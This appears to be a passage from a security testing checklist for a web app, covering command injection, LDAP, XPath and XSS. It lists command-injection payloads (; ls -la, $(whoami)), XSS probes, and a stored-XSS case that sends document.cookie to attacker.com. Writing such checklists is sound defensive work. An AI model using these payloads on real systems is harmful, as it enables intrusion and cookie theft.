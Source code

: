 ### A2.3 Command Injection
- [ ] Test file upload features
- [ ] Test image processing
- [ ] Test any system command execution
- [ ] Verify input sanitization

**Test Payloads:**
```bash
; ls -la
| whoami
& dir
`id`
$(whoami)
```

### A2.4 LDAP Injection
- [ ] Test if LDAP is used
- [ ] Test user lookup functionality

### A2.5 XPath Injection
- [ ] Test XML parsing
- [ ] Test XML-based queries

## 3. Cross-Site Scripting (XSS)

### A3.1 Reflected XSS
- [ ] Test search functionality
- [ ] Test error messages
- [ ] Test URL parameters
- [ ] Test form inputs

**Test Payloads:**
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src="javascript:alert('XSS')">
<body onload=alert('XSS')>
```

### A3.2 Stored XSS
- [ ] Test comment system
- [ ] Test rating reviews
- [ ] Test profile bio
- [ ] Test politician descriptions
- [ ] Test any user-generated content

**Test Cases:**
```javascript
// Post comment with XSS
POST /api/comments
{
  "content": "<script>document.location='http://attacker.com?cookie='+document.cookie</script>"
}
// Should be sanitized
```
